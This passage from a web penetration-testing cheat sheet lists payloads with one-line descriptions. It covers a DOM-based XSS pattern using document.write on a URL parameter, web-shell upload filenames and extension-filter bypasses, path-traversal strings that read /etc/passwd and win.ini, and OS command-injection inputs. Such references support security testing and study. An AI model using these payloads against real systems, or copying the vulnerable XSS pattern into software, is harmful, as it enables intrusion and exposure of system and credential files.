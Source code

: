 **DOM-Based XSS**
```javascript
<script>
var url = new URL(window.location);
var param = url.searchParams.get('search');
document.write(param);
</script>
```
DOM manipulation vulnerabilities.

### File Upload Exploitation

**Executable Upload**
```bash
shell.php
shell.php5
shell.phtml
shell.asp
shell.aspx
shell.jsp
```
Upload executable files for code execution.

**Bypass Techniques**
```bash
shell.php.jpg
shell.jpg.php
shell.php%00.jpg
shell.php::$DATA
```
Bypass file extension filters.

### Path Traversal

**Directory Traversal**
```
../../../../etc/passwd
../../windows/win.ini
...\/...\/...\/windows/system32/drivers/etc/hosts
....//....//....//etc/passwd
```
Access files outside intended web root.

### Command Injection

**OS Command Injection**
```bash
; whoami ;
| cat /etc/passwd
`id`
$(whoami)
```
Execute arbitrary OS commands.

---
